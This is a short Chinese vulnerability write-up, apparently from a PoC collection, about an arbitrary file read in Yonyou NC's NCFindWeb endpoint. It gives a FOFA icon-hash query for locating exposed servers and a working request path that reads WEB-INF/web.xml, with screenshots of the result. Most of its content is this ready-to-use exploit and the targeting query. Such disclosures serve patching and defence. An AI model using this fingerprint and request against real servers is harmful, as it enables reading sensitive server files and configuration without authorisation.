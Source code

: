 # 用友 NC NCFindWeb 任意文件读取漏洞

## 漏洞描述

用友NC存在任意文件读取漏洞，攻击者通过漏洞可读取服务器敏感文件

## 漏洞影响

```
用友NC
```

## FOFA

```
icon_hash="1085941792"
```

## 漏洞复现

登陆页面

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1628351304159-f00b4a4f-a104-40f4-a8bf-1ea00cf72c98.png)

验证POC **/NCFindWeb?service=IPreAlertConfigService&filename=WEB-INF/web.xml**

![img](https://typora-1308934770.cos.ap-beijing.myqcloud.com/1628351371286-e2898425-5e54-438a-b5eb-4f20eed3636b.png)

